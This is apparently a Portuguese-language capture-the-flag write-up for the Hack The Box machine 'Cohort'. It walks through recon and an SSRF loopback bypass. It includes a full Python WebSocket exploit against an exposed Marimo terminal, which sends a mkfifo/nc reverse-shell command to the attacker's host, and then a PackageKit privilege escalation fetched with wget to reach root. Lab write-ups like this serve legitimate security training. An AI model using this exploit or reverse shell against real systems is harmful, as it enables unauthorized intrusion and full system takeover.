







# HTB-Cohort

Comecei fazendo um portscan padrão com Nmap, que me retornou 3 portas abertas. Como é de praxe, vamos ignorar o SSH por enquanto e analisar a webapp.

```c
~ 〉 nmap -sV -T3 -sC 10.129.81.126
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.18 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp  open  http     nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to https://cohort.htb/
443/tcp open  ssl/http nginx 1.24.0 (Ubuntu)
| ssl-cert: Subject: commonName=cohort.htb/organizationName=Cohort Analytics
| Subject Alternative Name: DNS:cohort.htb, DNS:*.cohort.htb
| Not valid before: 2026-06-01T18:47:07
|_Not valid after:  2126-05-08T18:47:07
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to https://cohort.htb/
| tls-alpn:
|   http/1.1
|   http/1.0
|_  http/0.9
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


Antes de averiguar mais a aplicação, já deixei rodando um fuzzing de diretórios, especificando o `--insecure` no Feroxbuster, visto que estamos trabalhando com HTTPS e o certificado não é confiável para a nossa máquina.

```c
~ 〉 feroxbuster -u https://cohort.htb/ --insecure
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ https://cohort.htb/
 🚩  In-Scope Url          │ cohort.htb
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/feroxbuster/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔓  Insecure              │ true
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
301      GET        7l       12w      178c https://cohort.htb/api => https://cohort.htb/api/
301      GET        7l       12w      178c https://cohort.htb/assets => https://cohort.htb/assets/
403      GET        7l       10w      162c https://cohort.htb/status
200      GET        1l        4w       42c https://cohort.htb/api/health
[####################] - 3m     90000/90000   0s      found:4       errors:0
[####################] - 2m     30000/30000   307/s   https://cohort.htb/
[####################] - 3m     30000/30000   184/s   https://cohort.htb/api/
[####################] - 2m     30000/30000   318/s   https://cohort.htb/assets/
```

Nessa parte podemos validar um SSRF subindo um HTTP server na nossa máquina e verificando se o host faz uma request para ela.







```c
~ 〉 python3 -m http.server 6767
Serving HTTP on 0.0.0.0 port 6767 (http://0.0.0.0:6767/) ...
10.129.81.126 - - [07/Aug/2026 07:12:10] "GET / HTTP/1.1" 200 -

```

Bypassando a restrição de endereços de loopback usando outro endereço de loopback, podemos averiguar a resposta do `/status`, que retorna o status code `405` pra gente. Com isso conseguimos uma resposta bem volumosa em informações.







```c

{"ok": true
, "fetched_status": 200
, "content_type": "application/json"
, "preview": "{\"service\":\"cohort-edge\"
,\"status\":\"ok\",\"generated_by\":\"nginx\",
\"upstreams\":[{\"name\":\"marketing\",
\"host\":\"cohort.htb\",
\"root\":\"/var/www/cohort\"},
{\"name\":\"insights-api\",
\"host\":\"cohort.htb\",
\"path\":\"/api/\",
\"target\":\"127.0.0.1:5000\"},
{\"name\":\"notebooks\",
\"host\":\"nb-1be3782a8afd3ad5.cohort.htb\",
\"target\":\"28\",
\"note\":\"internal analyst workspace,
 not for external use\"}]}",
"message": "Source reachable."}
```



Mexendo nesse novo subdomínio, vi que o nome da página e a logo são de um sistema chamado Marimo. Bastou um Google pra descobrir que existe uma CVE para ele com pre-auth RCE.

Pra validar a PoC, tentei fazer um curl para ambos os protocolos de WebSocket, `ws` e `wss`. Forçar o `ws` retorna um erro dizendo que ele precisa fazer um upgrade para `wss`.

Isso é bem semelhante a algo que temos no HTTP, que nesse caso seria o HSTS, onde conexões não protegidas são forçadas a utilizar HTTPS. Aqui, porém, estamos vendo o servidor forçando a conexão WebSocket a utilizar a versão segura através de TLS.

```c
~ 〉 curl ws://nb-1be3782a8afd3ad5.cohort.htb/terminal/ws

curl: (22) Refused WebSocket upgrade: 301
```

Agora que sabemos da existência do vetor de exploração, vamos codar um exploit simples pra automatizar e facilitar o processo de transcrição dos frames.

```c
import socket
import ssl
import base64
import os
import struct

TARGET_IP = "10.129.82.198"
HOST = "nb-1be3782a8afd3ad5.cohort.htb"
PATH = "/terminal/ws"

def connect():
    raw = socket.create_connection((TARGET_IP, 443), timeout=5)

    ctx = ssl.SSLContext(ssl.PROTOCOL_TLS_CLIENT)
    ctx.check_hostname = False
    ctx.verify_mode = ssl.CERT_NONE

    s = ctx.wrap_socket(raw, server_hostname=HOST)

    key = base64.b64encode(os.urandom(16)).decode()

    req = (
        f"GET {PATH} HTTP/1.1\r\n"
        f"Host: {HOST}\r\n"
        "Upgrade: websocket\r\n"
        "Connection: Upgrade\r\n"
        f"Sec-WebSocket-Key: {key}\r\n"
        "Sec-WebSocket-Version: 13\r\n"
        f"Origin: https://{HOST}\r\n"
        "\r\n"
    )

    s.sendall(req.encode())

    s.settimeout(5)

    resp = b""

    while b"\r\n\r\n" not in resp:
        chunk = s.recv(4096)

        if not chunk:
            raise ConnectionError("Servidor fechou a conexão durante o handshake")

        resp += chunk

    print(resp.decode(errors="replace"))

    if b"101 Switching Protocols" not in resp:
        raise ConnectionError("Handshake WebSocket não foi aceito")

    return s

def recv_frame(s):
    header = s.recv(2)

    if len(header) != 2:
        raise ConnectionError("Conexão fechada ao receber frame")

    byte1, byte2 = header

    fin = byte1 & 0x80
    opcode = byte1 & 0x0F
    masked = byte2 & 0x80
    length = byte2 & 0x7F

    if length == 126:
        length = struct.unpack("!H", recv_exact(s, 2))[0]

    elif length == 127:
        length = struct.unpack("!Q", recv_exact(s, 8))[0]

    mask = b""

    if masked:
        mask = recv_exact(s, 4)

    payload = recv_exact(s, length)

    if masked:
        payload = bytes(
            payload[i] ^ mask[i % 4]
            for i in range(len(payload))
        )

    return fin, opcode, payload

def recv_exact(s, size):
    data = b""

    while len(data) < size:
        chunk = s.recv(size - len(data))

        if not chunk:
            raise ConnectionError("Conexão fechada")

        data += chunk

    return data

def recv_frames(s, count=1):
    output = b""

    for _ in range(count):
        fin, opcode, payload = recv_frame(s)

        # 0x1 = texto
        if opcode == 0x1:
            output += payload

        # 0x2 = binário
        elif opcode == 0x2:
            output += payload

        # 0x8 = close
        elif opcode == 0x8:
            break

        # 0x9 = ping
        elif opcode == 0x9:
            send_frame(s, payload, opcode=0xA)

        # 0xA = pong
        elif opcode == 0xA:
            continue

    return output

def send_frame(s, payload, opcode=0x1):
    if isinstance(payload, str):
        payload = payload.encode()

    mask_key = os.urandom(4)

    first_byte = 0x80 | opcode
    length = len(payload)

    if length < 126:
        header = struct.pack("!BB", first_byte, 0x80 | length)

    elif length < 65536:
        header = struct.pack(
            "!BBH",
            first_byte,
            0x80 | 126,
            length
        )

    else:
        header = struct.pack(
            "!BBQ",
            first_byte,
            0x80 | 127,
            length
        )

    masked_payload = bytes(
        payload[i] ^ mask_key[i % 4]
        for i in range(len(payload))
    )

    s.sendall(header + mask_key + masked_payload)

def send_text(s, text):
    send_frame(s, text, opcode=0x1)

s = connect()

data = recv_frames(s, 3)

if data:
    print(data.decode(errors="replace"))

send_text(s, "id; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.17.17 6767 >/tmp/f; hostname\r")

data = recv_frames(s, 4)

print(data.decode(errors="replace"))

s.close()
```

O script basicamente estabelece a conexão TLS, realiza manualmente o handshake do WebSocket e implementa a leitura e escrita dos frames. Com isso conseguimos interagir diretamente com o terminal exposto pelo serviço e enviar os comandos necessários.

```c
~ 〉 python3 exploit.py
HTTP/1.1 101 Switching Protocols
Server: nginx/1.24.0 (Ubuntu)
Date: Sat, 08 Aug 2026 20:11:50 GMT
Connection: upgrade
Upgrade: websocket
Sec-WebSocket-Accept: PU7mgx65bSLzvRYdTJMFNjW1zAI=

marimo@cohort:~$
```

Inside!! Conseguimos nosso acesso e já vamos catar a flag de user.

```c
~ 〉 nc -lnvp 6767
Listening on 0.0.0.0 6767
Connection received on 10.129.82.198 43938
marimo@cohort:~$ cat user.txt
cat user.txt
<FLAG>
marimo@cohort:~$

```

Com isso, vamos começar a analisar a segunda parte da máquina e caçar nosso ponto de partida pra um privesc.

Após rodar o LinPEAS, ele retornou um positivo pra vulnerabilidade Pack2TheRoot. Então vamos testar. O ponto interessante aqui é que a versão instalada do PackageKit está abaixo da versão corrigida, então temos um possível vetor de privilege escalation local.

```c
╔══════════╣ Checking for PackageKit Pack2TheRoot (CVE-2026-41651) (T1068)
╚ https://github.security.telekom.com/2026/04/pack2theroot-linux-local-privilege-escalation.html
PackageKit version detected: 1.2.8-2ubuntu1.2
Vulnerable to CVE-2026-41651 (Pack2TheRoot) - PackageKit 1.2.8-2ubuntu1.2 is below the Ubuntu 24.04 fixed version: 1.2.8-2ubuntu1.5

```

Rodando um exploit do Pack2Root na máquina, é possível pegarmos root. Como já temos execução de comandos localmente, basta transferir o exploit para a máquina e executar.

[https://github.com/shibaaa204/Pack2TheRoot](https://github.com/shibaaa204/Pack2TheRoot)

```c
marimo@cohort:/tmp$ wget http://10.10.17.17:9191/exploit.py
wget http://10.10.17.17:9191/exploit.py
--2026-08-10 13:22:20--  http://10.10.17.17:9191/exploit.py
Connecting to 10.10.17.17:9191... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2743 (2.7K) [text/x-python]
Saving to: ‘exploit.py’

     0K ..                                                    100% 89.8K=0.03s

2026-08-10 13:22:21 (89.8 KB/s) - ‘exploit.py’ saved [2743/2743]

marimo@cohort:/tmp$ python3 exploit.py
python3 exploit.py
[*] CVE-2026-41651 — PackageKit LPE (Python Edition)
[+] Packages generated at /tmp
[+] Active trans: /2_caebdccd
[*] Triggering flood of requests (SIMULATE -> REAL)...
[*] Monitoring /tmp/.suid_bash...
.....
```

Gotcha, agora como root podemos pegar a flag final.

```c
whoami
root
cd /root
cat root.txt
<FLAG>
```


Com isso finalizamos a máquina, passando pelo SSRF, descoberta do serviço interno, exploração do Marimo via WebSocket e, por fim, o privesc através da vulnerabilidade do PackageKit. gg.
